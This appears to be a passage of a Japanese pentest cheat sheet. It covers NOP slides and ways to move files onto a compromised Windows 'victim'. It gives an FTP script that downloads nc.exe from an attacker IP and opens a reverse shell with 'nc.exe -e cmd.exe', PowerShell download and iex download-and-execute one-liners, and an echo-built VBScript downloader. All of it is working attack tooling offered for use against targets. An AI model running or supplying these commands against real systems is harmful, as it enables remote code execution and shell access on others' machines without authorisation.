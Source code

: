 Access violation when writing to [00000001] が表示されてクラッシュした場合NOPスライドを行う

```
0x90
```

## File転送

## Winosws

#### FTP

```bash
Paste the following code to get nc in the victim:
echo open <attacker_ip> 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
nc.exe <attacker_ip> 1234 -e cmd.exe
```

#### PowerShell

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://YOURIP:8000/b.exe','C:\Users\YOURUSER\Desktop\b.exe')"

powershell iex(new-object net.webclient).downloadstring('http://<local_ip>/filename.ps1')
```

#### wget.vbs

```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```
